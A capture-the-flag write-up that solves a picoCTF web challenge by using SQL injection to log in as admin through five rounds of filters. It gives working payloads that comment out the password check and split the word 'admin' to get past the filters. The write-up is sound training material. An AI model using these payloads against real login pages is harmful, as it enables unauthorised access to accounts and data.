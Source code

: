 ## Description
Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:9683/ http://jupiter.challenges.picoctf.org:9683/filter.php

## Solution
In this challenge we face a login page that seem to have 5 rounds.
We should do sql injection on login page and in each round will give us hint on prevention method we should bypass
(This hint about each round is provided in `filter.php` path)
Also it will render sql query that is made in source codes (we can see it in view page source after submiting query)

checking login page:
```
payload: user=admin&pass=123

response: SELECT * FROM users WHERE username='admin' AND password='123'
```

Ok easy. we can bypass it with: `username=admin' --&password=test` and this will make a query like below and pass us to round 2:
```sql
SELECT * FROM users WHERE username='admin' --' AND password='test'
```

In round 2, `filter.php` will output us: `Round2: or and like = --`.
Ok both `or` and `like` or `=` or `--` are filtered. Let's try to comment the rest of sql after username with other type of commenting in sqlite which is `/**/`.

Let's try payload `username=admin';+/*&password=test` which make sql like:
```sql
SELECT * FROM users WHERE username='admin'; /* AND password='test'
```

On round 3, we get following filtering rule by checking filter.php: `Round3: or and = like > < --`
Let's try to previous payload, cause it seem to be working here again. and it worked. leading us to round4

Ok in round 4, checking filter.php will get us: `Round4: or and = like > < -- admin`
It seem the admin is filtered which is used to login us as admin.

We can use concat feature in sqlite and make `'admin'` string like `'ad'||'min'`. and our payload is: `username=ad'||'min';+/*&password=test`

On round 5 checking filter.php will get us: `Round5: or and = like > < -- union admin`

It seem that we can still use previous solution. let try it and we get the flag.
